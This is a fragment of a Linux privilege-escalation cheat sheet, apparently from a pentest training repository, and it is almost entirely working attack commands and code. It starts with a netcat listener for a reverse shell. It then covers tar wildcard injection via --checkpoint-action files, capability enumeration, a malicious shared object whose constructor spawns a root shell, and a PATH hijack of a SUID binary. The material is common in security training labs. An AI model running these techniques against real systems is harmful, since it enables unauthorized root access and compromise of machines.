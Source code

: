 ```bash
nc -nvlp 4444 # our kali
chmod +x /home/user/shell.elf # target machine 
touch /home/user/--checkpoint=1 # target machine
touch /home/user/--checkpoint-action=exec=shell.elf # target machine 
```
#### Cron Jobs - Wildcards(2) 🔆
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh # target machine 
chmod +x /home/user/runme.sh # target machine 
touch /home/user/--checkpoint=1 # target machine
touch /home/user/--checkpoint-action=exec=bash\ runme.sh # target machine 
```
## Capabilities ✅
```bash
getcap -r / 2>/dev/null # If "cap_setuid+ep" existed. 
# go to # https://gtfobins.github.io/#
```
## **SUID_SGID** ✅
### Known Exploits ✡️
```bash
searchsploit <name app>
```
### **Symlinks** ✡️
```bash
```

### Shared Object Injection ✡️
```bash
file /usr/local/bin/suid-so # setuid setgid ELF 64-bit LSB executable
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file" # Find a shared Object 
mkdir /home/user/.config 
nano /tmp/libcalc.c ⬇️⬇️⬇️⬇️
-------------------
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
-------------------
gcc /tmp/libcalc.c -shared -fPIC -o /home/user/.config/libcalc.so
/usr/local/bin/suid-so
```
### Environment Variables(1) ✡️
```bash
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env # service apache2 start
nano /tmp/service.c
-------------------
int main() {
        setuid(0);
        system("/bin/bash -p");
}
-------------------
gcc /tmp/service.c -o /tmp/service 
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```